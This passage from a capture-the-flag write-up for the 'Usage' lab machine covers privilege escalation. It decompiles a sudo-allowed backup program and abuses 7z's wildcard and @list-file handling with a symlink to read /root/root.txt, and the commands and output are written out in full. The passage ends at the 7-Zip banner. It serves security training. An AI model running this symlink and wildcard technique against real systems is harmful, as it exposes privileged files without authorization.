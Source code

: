 ### Privilege escalation / Root flag
The user got the sudo rights to call a custom program:
```
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
xander@usage:~$ 
```

Analyzing the program a bit with Ghidra reveals that it can call one of those two system commands:
```c
system("/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql")
```
```c
chdir("/var/www/html")
[...]
system("/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *")
```

The first one is not interesting for us. But the second is. The parameters will do the following:
* `a /var/backups/project.zip` - stores the files in the archive
* `-tzip` - set type of the archive to zip
* `-snl` - store symbolic links as links
* `-mmt` - enables multi-threading
* `--` - end of options
* `*` - all files in the directory

Everything behind the `--` is treated as path. So if we input a command inhere 7z will create an error. The list-file command can be used here: `<list_file> ::= @{filename}`

We have to create a file beginning with a `@`, so 7z tries to read a list of files from it. To abuse that, we create as well a symlink with the same name as the `@` file. 7z will read the content of the linked file, but since there are no lists in it, it generates an error which reveals the content of the linked file. The file can be something that we aren't allowed to read, since we execute that command with sudo privileges.

_More information can be found at [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z) or at this [writeup](https://0xdf.gitlab.io/2019/07/20/htb-ctf.html)._

To read out the root flag with that vulnerability, we can use the following commands:
```
xander@usage:/var/www/html$ touch @root.txt
xander@usage:/var/www/html$ ln -s /root/root.txt root.txt
xander@usage:/var/www/html$ ls -al 
total 16
drwxrwxrwx  4 root   xander 4096 Jul  2 19:29 .
drwxr-xr-x  3 root   root   4096 Apr  2 21:15 ..
drwxrwxr-x 13 dash   dash   4096 Apr  2 21:15 project_admin
-rw-rw-r--  1 xander xander    0 Jul  2 19:29 @root.txt
lrwxrwxrwx  1 xander xander   14 Jul  2 19:29 root.txt -> /root/root.txt
drwxrwxr-x 12 dash   dash   4096 Apr  2 21:15 usage_blog
xander@usage:/var/www/html$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

```